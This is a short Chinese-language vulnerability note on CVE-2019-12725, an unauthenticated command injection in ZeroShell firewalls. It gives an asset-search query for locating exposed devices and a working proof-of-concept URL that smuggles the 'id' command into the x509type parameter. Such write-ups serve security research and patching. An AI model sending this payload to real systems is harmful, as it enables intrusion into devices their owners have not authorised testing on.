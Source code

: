 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

```
ZeroShell < 3.9.0
```

## 网络测绘

```
app="Zeroshell-防火墙"
```

## 漏洞复现

登录页面如下



![](images/202202162258497.png)

验证的POC为

```plain
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```

![](images/202202162258777.png)